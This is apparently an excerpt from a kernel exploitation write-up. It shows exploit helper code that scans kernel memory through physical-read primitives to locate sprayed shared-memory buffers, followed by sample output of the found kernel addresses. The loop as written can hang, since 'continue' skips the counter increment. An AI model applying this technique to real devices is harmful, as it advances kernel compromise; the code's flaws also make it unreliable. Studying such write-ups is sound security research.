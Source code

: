 ```cpp
        kernel_alloc_start_maybe = kernel_map_start + 0x30000000;
    }
    
    int try_count = 0;
    while(1) {
        uint64_t current_kva = kernel_alloc_start_maybe + try_count * 0x1000;

        //check if valid readable kernel address to prevent kernel panic
        uint64_t current_pa = kvtophys(current_kva);
        if(current_pa == 0) continue;

        if(physread64(current_pa) == command_buffer_shmem_sig) {
            command_buffer_shmem_data_kva = current_kva-0x1000;
            *kva1 = command_buffer_shmem_data_kva;
        }

        if(physread64(current_pa) == segment_list_shmem_sig) {
            segment_list_shmem_data_kva = current_kva-0x1000;
            *kva2 = segment_list_shmem_data_kva;
        }

        if(segment_list_shmem_data_kva && command_buffer_shmem_data_kva) {
            INFO("try_count: %d\n", try_count);
            break;
        }

        if(try_count > 200000) {
            ERROR("failed to find where shmem allocated in kernel\n");
            break;
        }

        try_count++;
    }
    
...

#if ENABLE_HELPER
    //helper; find our 96MB shmem data
    uint64_t command_buffer_shmem_data_kva, segment_list_shmem_data_kva = 0;
    find_shmem_in_kernel_4(&command_buffer_shmem_data_kva, &segment_list_shmem_data_kva, command_buffer_shmem_sig, segment_list_shmem_sig, osdict_entry);
    SUCCESS("command_buffer_shmem_data_kva: 0x%llx\n", command_buffer_shmem_data_kva);
    SUCCESS("segment_list_shmem_data_kva: 0x%llx\n", segment_list_shmem_data_kva);
    //
#endif
```

For running result, It shows that shared memory was allocated at following addresses.

```cpp
[*] try_count: 42961
[+] command_buffer_shmem_data_kva: 0xffffffe0d57d0000
[+] segment_list_shmem_data_kva: 0xffffffe0cf7d0000
```
